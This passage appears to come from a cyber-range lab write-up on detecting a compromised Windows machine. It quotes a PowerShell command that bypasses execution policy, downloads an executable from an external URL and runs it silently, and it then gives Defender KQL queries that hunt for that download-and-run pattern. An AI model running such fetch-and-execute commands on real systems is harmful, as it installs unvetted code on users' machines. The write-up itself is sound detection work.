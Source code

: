 Upon running the detection rule, we identified the following PowerShell command executing on the compromised machine:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
```

This command triggered the download and installation of a malicious 7zip executable from an external URL. The executable was silently executed with the /S flag, which instructed the installer to run without user intervention (silent installation). 👾

Upon investigation, we determined that the malicious payload had been downloaded to `C:\ProgramData\7z2408-x64.exe` and was automatically executed, likely allowing the attacker to gain remote control of the machine. 🚨

---

## Detection and Response 🛡️

Once the suspicious activity was identified:

### 1. KQL Query to Find the RCE PowerShell Payload 🔍

To detect this type of activity, we used the following KQL query in Microsoft Defender for Endpoint (MDE):
```kql
DeviceFileEvents
| top 20 by Timestamp desc
```
```kql
DeviceNetworkEvents
| top 20 by Timestamp desc
```
```kql
DeviceProcessEvents
| top 20 by Timestamp desc
```
```kusto
let target_machine = "whateverYourMachineIsName";
DeviceProcessEvents
| where DeviceName == "trce12"
| where AccountName != "system"
| where InitiatingProcessCommandLine has_any ("Invoke-WebRequest", "Start-Process")
| order by Timestamp desc 
```

This query was designed to look for any PowerShell command that used Invoke-WebRequest to download a file and Start-Process to execute it. Specifically, it captures the activity related to the malicious payload execution, allowing us to detect the attack's presence within the last hour. 🧐

![Screenshot 2025-01-12 173352](https://github.com/user-attachments/assets/cdd76fba-d585-4ecb-8b18-344465e49b45)

---
